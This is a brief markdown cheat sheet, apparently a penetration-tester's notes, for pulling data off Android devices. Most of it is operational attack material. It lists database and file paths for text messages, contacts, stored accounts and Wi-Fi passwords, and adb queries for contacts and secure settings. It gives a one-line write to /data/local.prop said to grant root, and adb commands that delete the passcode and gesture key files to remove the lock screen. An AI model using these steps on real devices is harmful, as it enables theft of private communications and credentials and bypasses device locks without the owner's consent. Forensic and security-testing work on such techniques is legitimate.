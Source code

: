 # Android

##Information Gathering

###Text Messages (Needs Root):

```
/data/data/com.android.providers.telephony/databases/mmssms.db
/data/data/com.android.providers/telephony/databases/mmssms.db
```

###Grab Contacts and Settings (does not need root):

```
adb shell content query --uri content://contacts/phones
adb shell content query --uri content://settings/secure
adb shell content query --uri content://settings/global
```

###Contacts (Needs Root):

```
/data/data/com.android.providers.contacts/databases/contacts2.db
/data/data/com.android.providers.contacts/databases/contacts.db
/data/data/android.providers.contacts/databases
```

###Accounts (Needs Root):

```
/data/system/users/0/accounts.db
/data/system/accounts.db
```

###Wifi Keys (Needs Root):

```
/data/misc/wifi/wpa_supplicant.conf
```

###Local System Settings:

```
/data/local.prop
```

###Device Settings:

```
/system/build.prop
```

##Misc.

If you can write to this file the following line will grant root:

```
echo "ro.kernel.qemu=1" > /data/local.prop
```

Start an application via adb shell:

```
am start -a android.intent.activity.MAIN -n com.application.identifier/.ActivityID
```

Remove passcode lock (Need Root):

```
adb shell rm /data/system/gesture.key
adb shell rm /data/system/password.key
```
